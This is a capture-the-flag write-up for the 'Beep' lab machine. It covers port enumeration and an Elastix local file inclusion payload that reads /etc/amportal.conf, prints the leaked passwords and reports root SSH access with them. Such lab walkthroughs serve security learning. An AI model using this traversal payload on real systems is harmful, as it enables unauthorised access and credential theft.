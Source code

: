 # Beep

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

## Enumeration

### NMAP

| Port  | Service | Details                                       |
| ----- | ------- | --------------------------------------------- |
| 22    | SSH     | OpenSSH 4.3 (protocol 2.0)                    |
| 25    | SMTP    | Postfix smtpd                                 |
| 80    | HTTP    | Apache httpd 2.2.3                            |
| 110   | POP3    | Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5\_6.4 |
| 111   | RPC     | syn-ack 2 (RPC #100000)                       |
| 143   | IMAP    | Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5\_6.4 |
| 443   | HTTPS   | Apache httpd 2.2.3 ((CentOS))                 |
| 10000 | HTTP    | MiniServ 1.570 (Webmin httpd)                 |

## Port 80

Elastix webpage with login.&#x20;

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Default credentials don't work, so I will finish my enumeration with gobuster.

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

`/admin` is interesting, but going there gives a login screen that doesn't take default credentials.

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### LFI

We can searchsploit for elastix:

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

I like that LFI, but to be honest I tried multiple ones to try and find one that actually worked. Problem is, the perl script does not run. Good thing is that it tells us exactly what the LFI is.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

`/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

That's where we want to go, and it'll give me credentials.

```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

Now we can just ssh into the machine as root and get both flags.
